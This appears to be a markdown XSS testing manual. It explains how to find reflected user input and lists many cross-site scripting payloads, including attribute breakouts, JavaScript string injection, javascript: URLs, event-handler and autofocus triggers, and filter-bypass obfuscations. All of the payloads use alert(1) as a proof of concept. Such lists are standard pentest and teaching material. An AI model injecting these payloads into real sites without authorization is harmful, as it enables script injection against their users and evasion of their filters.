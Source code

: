 # XSS Manual

## Identifying Reflections of User Input

1.  `myxsstestdmqlwp` **Submit this string** as every parameter to every page, targeting only one parameter at a time. Only alphabetical characters.

2.  **Monitor the application's responses** for any appearance of this same string.

3.  **Test both GET and POST** requests. Both the URL query string and the message body.

4.  **Test HTTP request headers.** A common XSS vulnerability arises in error messages, where items such as the _Referer_ and _User-Agent_ headers are copied into the message's contents.

5.  **URL-encode** any special characters, including & = + ; and _space_

## Testing Reflections to Introduce Script

**Example 1: A Tag Attribute Value**
Suppose that the returned page contains the following:
`<input type="text" name="address1" value="myxsstestdmqlwp">`

Try:
`"><script>alert(1)</script>`
`" onfocus="alert(1)`

**Example 2: A JavaScript String**
If: `<script>var a = 'myxsstestdmqlwp'; var b = 123; ... </script>`
Try:
`'; alert(1); var foo='`
`'; alert(1); //`

**Example 3: An Attribute Containing a URL**
If `<a href="myxsstestdmqlwp">Click here ...</a>`
use the `javascript:` protocol to introduce script directly within the URL attribute.
Try:
`javascript:alert(1);`
`#"onclick="javascript:alert(1)`

## Event Handlers

```
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)
<input type=image src=valid.gif onreadystatechange=alert(1)
<isindex type=image src=valid.gif onreadystatechange=alert(1)
<script onreadystatechange=alert(1)
<bgsound onpropertychange=alert(1)
<body onbeforeactivate=alert(1)
<body onactivate=alert(1)
<body onfocusin=alert(1)>
```

Use `autofocus` attribute to automatically trigger events that previously required user interaction:

```
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```

Event handlers in closing tags:
`</a onmousemove=alert(1)>`

## Script Pseudo-Protocols

```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
```

## Bypassing Filters: HTML

Ways in which HTML syntax can be obfuscated to defeat common filters.

`<img onerror=alert(1) src=a>`

**The Tag Name**
`<iMg onerror=alert(1) src=a>`

`<[%00]img onerror=alert(1) src=a>`
`<i[%00]mg onerror=alert(1) src=a>`
In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the applica-tion's response, you need to look for the literal decoded character being reflected.

**Space Following the Tag Name**

```
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<script/anyjunk>alert(1)</script>
```

**Attribute Names**
`<img o[%00]nerror=alert(1) src=a>`

**Attribute Delimiters**

```
<img onerror=”alert(1)”src=a>
<img onerror=’alert(1)’src=a>
<img onerror=`alert(1)`src=a>
<img/onerror=”alert(1)”src=a>

```
